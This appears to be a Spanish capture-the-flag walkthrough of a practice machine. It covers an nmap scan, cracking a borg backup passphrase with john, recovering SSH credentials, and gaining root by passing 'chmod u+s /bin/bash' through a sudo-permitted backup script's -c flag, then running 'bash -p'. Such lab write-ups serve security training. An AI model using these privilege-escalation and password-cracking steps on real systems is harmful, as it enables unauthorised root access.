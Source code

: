 ### nmap 
```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```c
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar

![[Pasted image 20231107222735.png]]
descargamos esto para echar un vistazo.
### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion
```java
	sudo apt install borgbackup   
```
### montamos el directorio de la siguiente manera:
```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![[Pasted image 20231107231024.png]]
buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![[Pasted image 20231107231157.png]]
### clave
```c
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:
![[Pasted image 20231107232642.png]]
### Credenciales:
```c
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![[Pasted image 20231107233123.png]]
### escalar privilegios: ejecutamos sudo -l 
![[Pasted image 20231108001114.png]]
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![[Pasted image 20231108001510.png]]
![[Pasted image 20231108001557.png]]

### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.
```python
	sudo /etc/mp3backups/backup.sh 
```
llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.
```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
### hacemos bash -p
![[Pasted image 20231108002744.png]]
hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root
### WE ARE ROOT